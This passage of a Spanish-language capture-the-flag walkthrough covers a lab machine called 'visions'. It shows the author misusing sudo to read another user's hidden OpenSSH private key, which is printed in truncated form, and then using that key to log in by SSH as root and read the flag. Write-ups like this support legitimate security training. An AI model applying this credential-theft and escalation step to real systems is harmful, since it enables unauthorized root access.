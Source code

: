 Ahora ingresamos con el usuario de Sophia para leer el archivo:

```sh
sophia@visions:~$ sudo /usr/bin/cat /home/isabella/.invisible
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEb
..
tllkIbNEJNDtqQNt2NRvhDUOzAxca1C/IySuw
-----END OPENSSH PRIVATE KEY-----
```

Con esto guardamos la clave rsa en un nuevo archivo para ingresar con root a través de SSH:

```sh
# Creamos el archivo y pegamos la clave
nano rsa       

# Le damos los permisos
chmod 600 rsa

# Ingresamos por SSH
ssh -i rsa root@192.168.56.23
Linux visions 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 19 05:24:08 2021
root@visions:~#
```

Y con esto finalmente leemos el archivo root.txt
